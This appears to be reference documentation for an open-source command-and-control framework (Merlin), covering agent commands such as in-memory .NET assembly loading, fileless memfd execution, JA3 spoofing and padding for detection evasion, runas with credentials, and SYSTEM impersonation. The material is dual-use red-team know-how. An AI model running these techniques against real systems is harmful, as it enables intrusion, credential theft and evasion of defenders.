The ``invoke-assembly`` command will execute a .NET assembly that was previously loaded into the agent with the
load-assembly_ command. The first argument is the name of the assembly and all the remaining arguments are passed to
the assembly for execution. Use the list-assemblies_ command return a list of loaded assemblies.
The execute-assembly_ command is different because it uses injection to run the assembly in a child process.
This command runs the assembly in the current process without injection.

.. note::
    Only CLR v4 is currently supported which can be used to execute both v3.5 and v4 .NET assemblies

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» invoke-assembly Rubeus.exe klist
    [-] Created job GlPHKaRtmg for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job GlPHKaRtmg for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.5.0


    Action: List Kerberos Tickets (Current User)

    [*] Current LUID    : 0x37913

.. _ja3:

ja3
---

`JA3 is a method for fingerprinting TLS clients on the wire <https://engineering.salesforce.com/tls-fingerprinting-with-ja3-and-ja3s-247362855967>`_. Every TLS client has a unique signature depending on its configuration of the following TLS options: ``SSLVersion,Ciphers,Extensions,EllipticCurves,EllipticCurvePointFormats``.

The ``ja3`` option allows the agent to create a TLS client based on the provided JA3 hash signature. This is useful to evade detections based on a JA3 hash for a known tool (e.g.,. Merlin). `This <https://engineering.salesforce.com/gquic-protocol-analysis-and-fingerprinting-in-zeek-a4178855d75f>`_ article documents a JA3 fingerprint for Merlin. Known JA3 signatures can be downloaded from https://ja3er.com/

.. note::
    Make sure the input JA3 hash will enable communications with the Server. For example, if you leverage a JA3 hash that only supports SSLv2 and the server does not support that protocol, then they will not be able to communicate. The ``-ja3`` flag will override the the ``-proto`` flag and will cause the agent to use the protocol provided in the JA3 hash.

This example will create a TLS client with a JA3 hash of ``51a7ad14509fd614c7bb3a50c4982b8c`` that matches Java based malware such as Neutrino and Nuclear Exploit Kit (EK).

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» ja3 769,49161-49171-47-49156-49166-51-50-49159-49169-5-49154-49164-49160-49170-10-49155-49165-22-19-4-255,10-11-0,23-1-3-19-21-6-7-9-10-24-11-12-25-13-14-15-16-17-2-18-4-5-20-8-22,0
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-] Created job DWXtIAdjYz for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

jobs
----

The ``jobs`` command will display a table of all active jobs assigned to the agent. The output will not include jobs that have already completed.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» jobs

          ID     | STATUS  |     TYPE     |       CREATED        |         SENT
    +------------+---------+--------------+----------------------+----------------------+
      whFGRWHudV | Sent    | NativeCmd    | 2020-12-18T11:45:07Z | 2020-12-18T11:45:38Z
      UxegCkyROR | Sent    | AgentControl | 2020-12-18T11:45:11Z | 2020-12-18T11:45:38Z
      YqhfUvxkqZ | Created | CmdPayload   | 2020-12-18T11:45:44Z |

.. _kill:

kill
----

The ``kill`` command is used to force a running process to quit or exit by its numerical identifier. The Process ID (PID) must be provided.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell "ps aux|grep gnome-calculator"
    [-] Created job mBYVsnbYBS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job mBYVsnbYBS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] john      132905  0.3  0.6 890376 50268 ?        Sl   07:41   0:00 gnome-calculator

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» kill 132905
    [-] Created job rjXgPGnZYl for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job rjXgPGnZYl for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Successfully killed pid 132905

.. _killdate:

killdate
--------

Killdate is a UNIX timestamp that denotes a time the executable will not run after (if it is 0 it will not be used). Killdate is checked before the agent performs each checkin, including before the initial checkin.

Killdate can be set in the agent/agent.go file before compiling, in the New function instantiation of a new agent. One scenario for using the killdate feature is an agent is persisted as a service and you want it to stop functioning after a certain date, in case the target organization fails to remediate the malicious service. Using killdate here would stop the agent from functioning after a certain specified UNIX system time.

The Killdate can also be set or changed for running agents using the ``set killdate`` command from the agent menu. This will only modify the killdate for the running agent in memory and will not update the compiled binary file. http://unixtimestamp.50x.eu/ can be used to generate a UNIX timestamp.

A UNIX timestamp of `0` will read like `1970-01-01T00:00:00Z` in the agent info table.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» killdate 811123200
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-]Created job utpISXXXbl for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

list-assemblies
---------------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

The ``list-assemblies`` command lists .NET assemblies that have been loaded into the agent's process with the load-assembly_ command.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» list-assemblies
    [-] Created job NIflRstGrR for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job NIflRstGrR for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Loaded Assemblies:
    seatbelt.exe
    rubeus.exe
    sharpdpapi.exe
    sharpup.exe
    Hagrid

load-assembly
-------------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

The ``load-assembly`` command loads a .NET assembly into the agent's process. Once the assembly is loaded, it can be executed
multiple times with the invoke-assembly_ command. The .NET assembly is only sent across the wire one time.
An option third argument can be provided to reference the assembly as any other name when executed with the
invoke-assembly_ command.

.. note::
    Only CLR v4 is currently supported which can be used to execute both v3.5 and v4 .NET assemblies

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» load-assembly /root/Rubeus.exe
    [-] Created job iQOkWgGqkJ for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job iQOkWgGqkJ for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] successfully loaded rubeus.exe into the default AppDomain

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» load-assembly /root/Rubeus.exe Hagrid
    [-] Created job YrPdQkcuTG for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job YrPdQkcuTG for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] successfully loaded Hagrid into the default AppDomain

.. _ls:

ls
--

The ``ls`` command is used to list a directory's contents using native Go functions within Merlin. This command will not execute the ``ls`` or ``dir`` binary programs found on their associated host operating systems. If a directory is not specified, Merlin will list the contents of the current working directory. When specifying a Windows path, you must escape the backslash (e.g.,. `C:\\Temp`). Wrap file paths containing a space in quotations. Alternatively, Linux file paths with a space can be called without quotes by escaping the space (e.g.,. ``/root/some\ folder/``). Relative paths can be used (e.g.,. ``./../`` or ``downloads\\Merlin``) and they are resolved to their absolute path.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» ls /var
    [-]Created job eNJKIiLXXH for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job eNJKIiLXXH
    Directory listing for: /var

    drwxr-xr-x      2019-02-06 00:05:17     4096    backups
    drwxr-xr-x      2018-12-24 14:40:14     4096    cache
    dgtrwxrwxrwx    2019-02-06 00:05:16     4096    crash
    drwxr-xr-x      2019-01-17 21:24:30     4096    lib
    dgrwxrwxr-x     2018-04-24 04:34:22     4096    local
    Lrwxrwxrwx      2018-11-07 21:33:01     9       lock
    drwxrwxr-x      2019-02-06 00:05:39     4096    log
    dgrwxrwxr-x     2018-07-24 23:03:56     4096    mail
    dgtrwxrwxrwx    2018-07-24 23:09:50     4096    metrics
    drwxr-xr-x      2018-07-24 23:03:56     4096    opt
    Lrwxrwxrwx      2018-11-07 21:33:01     4       run
    drwxr-xr-x      2018-11-07 21:45:43     4096    snap
    drwxr-xr-x      2018-11-07 21:38:04     4096    spool
    dtrwxrwxrwx     2019-02-06 00:05:38     4096    tmp

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» ls "C:\\Program Files (x86)\\"
    [-]Created job ggQPFQhTrC for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job ggQPFQhTrC
    Directory listing for: C:\Program Files (x86)

    drwxrwxrwx      2018-09-15 00:42:33     0       Common Files
    drwxrwxrwx      2018-09-15 02:08:27     0       Internet Explorer
    drwxrwxrwx      2018-09-15 00:33:50     0       Microsoft.NET
    drwxrwxrwx      2018-09-15 02:07:46     0       Windows Defender
    drwxrwxrwx      2018-12-27 12:42:42     0       Windows Kits
    drwxrwxrwx      2018-09-15 00:33:53     0       Windows Mail
    drwxrwxrwx      2018-12-16 13:15:58     0       Windows Media Player
    drwxrwxrwx      2018-09-15 02:10:06     0       Windows Multimedia Platform
    drwxrwxrwx      2019-01-10 08:18:11     0       Windows Photo Viewer
    drwxrwxrwx      2018-09-15 02:10:06     0       Windows Portable Devices
    drwxrwxrwx      2018-09-15 00:33:50     0       Windows Sidebar
    drwxrwxrwx      2018-09-15 00:33:50     0       WindowsPowerShell
    -rw-rw-rw-      2018-09-15 00:31:34     174     desktop.ini
    drwxrwxrwx      2018-09-15 00:42:33     0       windows nt

main
----

The ``main`` command is used to leave the Agent menu and return back to the :doc:`main`. It is an alias for the ``back`` command.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» main
    Merlin»

.. _maxretry:

maxretry
--------

The ``maxretry`` control type is used to change the _maximum_ number of failed login an agent will allow before the agent quits. For the sake of this conversation, a login means establishing contact with a Merlin Server and receiving no errors. The default is 7. There is no response on the CLI after the instruction has been provided to the agent. You can verify the setting was changed using the ``agent info`` command.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» maxretry 50
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-]Created job utpISXXXbl for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

memfd
-----

.. note::
    This command is only available to agent running on a ``Linux`` operating system!

The ``memfd`` command loads a Linux executable file into memory (RAM) as an anonymous file using the
`memfd_create <https://man7.org/linux/man-pages/man2/memfd_create.2.html>`__ API call, executes it, and returns the
results.
The file is created with an empty string as its name.
Less the fact that RAM is a file on Linux, the executable is not written to disk.
View the `Detecting Linux memfd_create() Fileless Malware with Command Line Forensics
<https://www.sandflysecurity.com/blog/detecting-linux-memfd_create-fileless-malware-with-command-line-forensics/>`__
for detection guidance.

.. note::
    This command will not run on Windows agents

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» memfd /tmp/hello.py
    [-] Created job ZyeWhgfThk for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job ZyeWhgfThk for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Hello from a Python script

netstat
-------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

The ``netstat`` command uses the Windows API to enumerating network connections and listening ports.
Without any arguments, the ``netstat`` command returns all TCP and UDP network connections.

Use ``netstat -p tcp`` to only return TCP connections and ``netstat -p udp`` to only return UDP connections.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» netstat
    [-] Created job JEFMANkdaU for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job JEFMANkdaU for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Proto Local Addr              Foreign Addr            State        PID/Program name
    udp   0.0.0.0:123             0.0.0.0:0                            3272/svchost.exe
    udp   0.0.0.0:500             0.0.0.0:0                            3104/svchost.exe
    udp   0.0.0.0:3389            0.0.0.0:0                            984/svchost.exe
    udp6  :::123                  0.0.0.0:0                            3272/svchost.exe
    udp6  :::500                  0.0.0.0:0                            3104/svchost.exe
    udp6  :::3389                 0.0.0.0:0                            984/svchost.exe
    tcp   0.0.0.0:135             0.0.0.0:0               LISTEN       964/svchost.exe
    tcp   0.0.0.0:445             0.0.0.0:0               LISTEN       4/System
    tcp   0.0.0.0:3389            0.0.0.0:0               LISTEN       984/svchost.exe
    tcp   127.0.0.1:52945         127.0.0.1:5357          TIME_WAIT
    tcp   127.0.0.1:54441         127.0.0.1:5357          TIME_WAIT
    tcp   192.168.1.11:59757      72.21.91.29:80          CLOSE_WAIT   6496/SearchApp.exe
    tcp   192.168.1.11:59763      72.21.91.29:80          CLOSE_WAIT   12076/YourPhone.exe
    tcp6  :::135                  :::0                    LISTEN       964/svchost.exe
    tcp6  :::445                  :::0                    LISTEN       4/System
    tcp6  :::3389                 :::0                    LISTEN       984/svchost.exe

note
----

The ``note`` command creates a server-side note that operators can use to record miscellaneous information about an agent.
The note is displayed in a column of the output from the sessions_ command

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» note Demo Agent Here
    [i] Agent c1090dbc-f2f7-4d90-a241-86e0c0217786's note set to: Demo Agent Here
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» sessions

                   AGENT GUID              |    TRANSPORT    |   PLATFORM    |      HOST       |        USER         |                 PROCESS                  | STATUS | LAST CHECKIN |      NOTE
    +--------------------------------------+-----------------+---------------+-----------------+---------------------+------------------------------------------+--------+--------------+-----------------+
      c1090dbc-f2f7-4d90-a241-86e0c0217786 | HTTP/2 over TLS | linux/amd64   | ubuntu          | rastley             | main(200769)                             | Active | 0:00:08 ago  | Demo Agent Here


nslookup
--------

The ``nslookup`` command takes a space separated list of IP addresses or hostnames and performs a DNS query using the
host's resolver and returns the results.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» nslookup 8.8.8.8 9.9.9.9 github.com google.com
    [-] Created job fQilcQFmlk for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job fQilcQFmlk for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Query: 8.8.8.8, Result: dns.google.
    Query: 9.9.9.9, Result: dns9.quad9.net.
    Query: github.com, Result: 192.30.255.113
    Query: google.com, Result: 142.250.73.238 2607:f8b0:4004:82a::200e

.. _padding:

padding
-------

The ``padding`` control type is used to change the _maximum_ size of a message's padding. A random value between 0 and the maximum padding value is selected on a per message basis and added to the end of each message. This is used in an attempt to evade detection when a program looks for messages with same size beaconing out. The default is 4096. There is no response on the CLI after the instruction has been provided to the agent. You can verify the setting was changed using the ``agent info`` command.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» set padding 8192
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-]Created job wlGTwgtqNx for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

pipes
-----

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

The ``pipes`` command lists all of the named pipes on the Windows host where the agent is currently running:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» pipes
    [-] Created job XYXXiZaGev for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job XYXXiZaGev for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Named pipes:
    \\.\pipe\InitShutdown
    \\.\pipe\lsass
    \\.\pipe\ntsvcs
    \\.\pipe\scerpc
    \\.\pipe\Winsock2\CatalogChangeListener-2f4-0
    \\.\pipe\Winsock2\CatalogChangeListener-3c4-0
    \\.\pipe\epmapper
    \\.\pipe\Winsock2\CatalogChangeListener-254-0
    \\.\pipe\LSM_API_service
    \\.\pipe\Winsock2\CatalogChangeListener-3f8-0
    \\.\pipe\eventlog
    \\.\pipe\Winsock2\CatalogChangeListener-558-0
    \\.\pipe\TermSrv_API_service
    \\.\pipe\Ctx_WinStation_API_service
    \\.\pipe\atsvc
    \\.\pipe\Winsock2\CatalogChangeListener-734-0
    \\.\pipe\wkssvc
    \\.\pipe\SessEnvPublicRpc
    \\.\pipe\Winsock2\CatalogChangeListener-a1c-0
    \\.\pipe\spoolss
    \\.\pipe\Winsock2\CatalogChangeListener-adc-0
    \\.\pipe\trkwks


printenv
--------

The ``printenv`` command is an alias for the ``env`` showall_ command that enumerates and return all environment variables:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» printenv
    [-] Created job NzbQEytJpY for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job NzbQEytJpY for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Environment variables:
    SHELL=/bin/bash
    SESSION_MANAGER=local/ubuntu:@/tmp/.ICE-unix/3195,unix/ubuntu:/tmp/.ICE-unix/3195
    QT_ACCESSIBILITY=1
    SNAP_REVISION=148
    XDG_CONFIG_DIRS=/etc/xdg/xdg-ubuntu:/etc/xdg
    XDG_MENU_PREFIX=gnome-
    GNOME_DESKTOP_SESSION_ID=this-is-deprecated
    SNAP_REAL_HOME=/home/rastley
    GNOME_SHELL_SESSION_MODE=ubuntu
    SSH_AUTH_SOCK=/run/user/1000/keyring/ssh

.. _ps:

ps
--

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

The ``ps`` command uses the Windows API to gather available information about running processes.
The agent is not running in a high-integrity process then some of the information will be missing.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]]» ps
    [-] Created job afYByFZoXV for agent c1090dbc-f2f7-4d90-a241-86e0c0217786]

    [-] Results job afYByFZoXV for agent c1090dbc-f2f7-4d90-a241-86e0c0217786]

    [+]
    PID     PPID    ARCH    OWNER   EXE
    0       0       x64             [System Process]
    4       0       x64             System
    124     4       x64             Registry
    412     4       x64             smss.exe
    508     496     x64             csrss.exe
    596     496     x64             wininit.exe
    604     588     x64             csrss.exe
    668     588     x64     BUILTIN\Administrators  winlogon.exe
    736     596     x64             services.exe
    <SNIP>
    4648    2504    x64     DESKTOP-H39FR21\bob     sihost.exe
    5732    736     x64     DESKTOP-H39FR21\bob     svchost.exe
    5684    736     x64     DESKTOP-H39FR21\bob     svchost.exe
    5768    1844    x64     DESKTOP-H39FR21\bob     taskhostw.exe
    5716    736     x64     BUILTIN\Administrators  svchost.exe
    2396    736     x64     NT AUTHORITY\SYSTEM     svchost.exe
    6220    2396    x64     DESKTOP-H39FR21\bob     ctfmon.exe
    6464    736     x64     NT AUTHORITY\LOCAL SERVICE      svchost.exe
    6504    6376    x64     DESKTOP-H39FR21\bob     explorer.exe

pwd
---

The ``pwd`` command uses native Go to get and return the current working directory.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» pwd
    [-]Created job JweUayTyTv for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job JweUayTyTv for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Current working directory: C:\Users\Joe

quit
----

The ``quit`` command is used to exit out of the Merlin Server application. This is also an alias for the ``exit`` command.

.. _rm:

rm
--

The ``rm`` command will remove or delete a file using native Go functions.

`` rm <file path>``

.. code-block:: text

    Merlin[agent][336154be-9ab9-4add-96e6-69c79f1ce77d]» rm C:\\Users\\rastley\\Downloads\\lyrics.txt
    [-] Created job jwGxSVYMDY for agent 336154be-9ab9-4add-96e6-69c79f1ce77d

    [-] Results job jwGxSVYMDY for agent 336154be-9ab9-4add-96e6-69c79f1ce77d

    [+] successfully removed file C:\Users\rastley\Downloads\lyrics.txt

runas
-----

The ``runas`` command will run a program as another user. This is done using the `CreateProcessWithLogonW <https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw>`__ Windows API call.

``runas <Domain\\User> <Password> <program> [<program args>]``

.. code-block:: text

    Merlin[agent][336154be-9ab9-4add-96e6-69c79f1ce77d]» runas ACME\\Administrator S3cretPassw0rd cmd.exe /c dir \\\\DC01.ACME.COM\\C$
    [-] Created job PABQYrMLYO for agent 336154be-9ab9-4add-96e6-69c79f1ce77d

    [-] Results job PABQYrMLYO for agent 336154be-9ab9-4add-96e6-69c79f1ce77d

    [+] Created cmd.exe process with PID 2120

.. _run:

run
---

The ``run`` command is used to task the agent to run a program on the host and return STDOUT/STDERR. When issuing a command to an agent from
the server, the agent will execute the provided binary file for the program you specified and also pass along any
arguments you provide. It is important to note that program must be in the path. This allows an operator to specify and
use a shell (e.g.,. cmd.exe, powershell.exe, or /bin/bash) or to execute the program directly *WITHOUT* a shell.
For instance, ``ping.exe`` is typically in the host's %PATH% variable on Windows and works *without* specifying ``cmd.exe``.
However, the ``ver`` command is not an executable in the %PATH% and therefore *must* be run from ``cmd.exe``.
Use the shell_ command if you want to use the operating system's default shell directly.

Example using ping:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run ping 8.8.8.8
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job DTBnkIfnus for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job DTBnkIfnus

    Pinging 8.8.8.8 with 32 bytes of data:
    Reply from 8.8.8.8: bytes=32 time=23ms TTL=54
    Reply from 8.8.8.8: bytes=32 time=368ms TTL=54
    Reply from 8.8.8.8: bytes=32 time=26ms TTL=54
    Reply from 8.8.8.8: bytes=32 time=171ms TTL=54

    Ping statistics for 8.8.8.8:
        Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
    Approximate round trip times in milli-seconds:
        Minimum = 23ms, Maximum = 368ms, Average = 147ms

Example running ``ver`` *without* ``cmd.exe``:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run ver
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job iOMPERNYGT for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job iOMPERNYGT
    exec: "ver": executable file not found in %PATH%

Example running ``ver`` *with* ``cmd.exe``:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run cmd.exe /c ver
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job IxVXgyIkhS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job IxVXgyIkhS

    Microsoft Windows [Version 10.0.16299.64]

Shell Functions
^^^^^^^^^^^^^^^

Some commands and capabilities are components of a shell and can *ONLY* be used with a shell.
For example, the ``dir`` command is a component of ``cmd.exe`` and is not its own program executable.
Therefore, ``dir`` can only be used within the ``cmd.exe`` shell.
In order to use the `dir`, you must provide executable of the shell environment where that command resides.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run cmd.exe /c dir

The pipe and redirection characters ``|`` , ``>`` , and ``<`` , are also functions of a shell environment.
If you want to use them, you must do so *WITH* a shell.
For Linux, an example would be:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»run bash -c "cat /etc/passwd | grep root"

Quoted Arguments
^^^^^^^^^^^^^^^^

When running a command on an agent from the server, the provided arguments are passed to executable that was called.
As long as there are no special characters (e.g., ``\`` , ``&`` , ``;`` , ``|`` , ``>`` , ``<`` etc.) the command will be processed fine.

For example, this command will work fine because it does not have any special characters:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe Get-Service -Name win* -Exclude WinRM

However, this command **WILL** fail because of the ``|`` symbol. The command will still execute, but will stop processing everything after the ``|`` symbol.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe Get-Service -Name win* -Exclude WinRM | fl

To circumvent this, enclose the entire argument in quotes. The outer most quotes will be removed when the arguments are
passed. Any inner quotes need to be escaped. The argument can be enclosed in double quotes or single quotes.
The command be executed in both of these ways:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe "Get-Service -Name win* -Exclude WinRM | fl"

**OR**

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe "Get-Service -Name \"win*\" -Exclude "WinRM" | fl"

**OR**

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe 'Get-Service -Name \'win*\' -Exclude 'WinRM' | fl'

Escape Sequence
^^^^^^^^^^^^^^^

Following along with the Quoted Arguments section above, the ``\`` symbol will be interpreted as an escape sequence.
This is beneficial because it can be used to escape other characters like the pipe symbol, ``|`` .
However, it can work against you when working with Windows file paths and the arguments are not enclosed in quotes.

This command will fail because the ``\`` itself needs to escaped. Notice the error message shows ``C:WindowsSystem32``:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run cmd.exe /c C:\Windows\System32
    [-]Created job hBYxRfaRBG for agent 21a0fc5f-14ad-4c43-b41e-57eab1feb0e1
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job hBYxRfaRBG
    [+]'C:WindowsSystem32' is not recognized as an internal or external command,
    operable program or batch file.
    [!]exit status 1

To correctly issue the command either escape the ``\`` or enclose the commands in quotes:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run cmd.exe /c dir C:\\Windows\\System32

sdelete
-------

The ``sdelete`` command securely deletes a file.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» sdelete /tmp/deleteMe.txt
    [-] Created job ZfLruZBwbR for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job ZfLruZBwbR for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Securely deleted file: /tmp/deleteMe.txt

sessions
--------

The ``sessions`` command is used to quickly list information about established agents from the main menu to include their status.
The sessions command is available from any menu in the CLI.

* AGENT GUID - A unique identifier for every running instance
* TRANSPORT - The protocol the agent is communicating over
* PLATFORM - The operating system and architecture the agent is running on
* HOST - The hostname where the agent is running
* USER - The username that hte agent is running as
* PROCESS - The Agent's process name followed by its Process ID (PID) in parenthesis
* STATUS - The Agent's communiction status of either active, delayed, or dead
* LAST CHECKIN - The amount of time that has passed since the agent last checked in
* NOTE - A free-form text area for operators to record notes about a specific agent; tracked server-side only

.. code-block:: text

    Merlin» sessions

                   AGENT GUID              |    TRANSPORT    |   PLATFORM    |      HOST       |        USER         |                 PROCESS                  | STATUS | LAST CHECKIN |      NOTE
    +--------------------------------------+-----------------+---------------+-----------------+---------------------+------------------------------------------+--------+--------------+-----------------+
      d07edfda-e119-4be2-a20f-918ab701fa3c | HTTP/2 over TLS | linux/amd64   | ubuntu          | rastley             | main(200769)                             | Active | 0:00:08 ago  | Demo Agent Here

sharpgen
--------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. warning::
    The .NET Core 2.1 SDK must be manually installed by the operator and the SharpGen executable must be built before the ``sharpgen`` command can be used

The ``sharpgen`` command leverages Ryan Cobb's `SharpGen <https://github.com/cobbr/SharpGen>`_ project and the `.NET Core 2.1 SDK <https://dotnet.microsoft.com/download/dotnet-core/2.1>`_ to dynamically compile and execute .NET assemblies. After assembly is compiled, the same steps documented in `execute-assembly`_ are followed. SharpGen also leverages functionality from the `SharpSploit <https://github.com/cobbr/SharpSploit>`_ project that can be called directly from this ``shargen`` command. This command uses a hardcoded output that places compiled executables to the Merlin root directory as ``sharpgen.exe``.

For more granular control and additional configuration options, use the ``windows/x64/csharp/misc/SharpGen`` module.

SharpGen is git a submodule in the ``data/src/cobbr/SharpGen`` directory. From this directory, run the ``dotnet build -c release`` command to build the ``SharpGen.dll`` executable.

The ``sharpgen`` command is executed as: ``shaprgen <code> [<spawnto path> <spawnto args>]``

The ``code`` positional argument is the .NET code you want to compile and execute. All code is automatically wraped in ``Console.WriteLine();`` and it does not need to be included again. All other arguments are optional. The ``<spawnto path>`` argument is the process that will be started on the target and where the shellcode will be injected and executed. If a ``<spawnto path>`` is not provided, ``C:\WIndows\System32\dllhost.exe`` will be used. The ``<spawnto args>`` value is used as an argument when starting the spawnto process.

.. note::
    Use ``\`` to escape any characters inside of the code argument and use quotes to enclose the entire code argument (e.g., ``"new Tokens().MakeToken(\"RAstley\", \"\", \"P@ssword\")"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» sharpgen "new SharpSploit.Credentials.Tokens().GetSystem()"
    [-] Created job oeOBXfBuPS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Results for c1090dbc-f2f7-4d90-a241-86e0c0217786 job oeOBXfBuPS

    Getting system...
    Impersonate NT AUTHORITY\SYSTEM...
    Processes for NT AUTHORITY\SYSTEM: 25
    Attempting to impersonate: NT AUTHORITY\SYSTEM
    Attempting to impersonate: NT AUTHORITY\SYSTEM
    Impersonated: NT AUTHORITY\SYSTEM
    True

.. _shell:

shell
-----

The ``shell`` command is used to task the agent to execute the provided arguments using the operating system's default
shell and return STDOUT/STDERR. On Windows the ``%COMSPEC%`` shell is used and if it is ``cmd.exe`` then the ``/c``
argument is used. For macOS and Linux, the ``/bin/sh`` shell is used with the ``-c`` argument.
Use the run_ command to execute a program directly without invoking the shell.

Example using ``ver``:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell ver
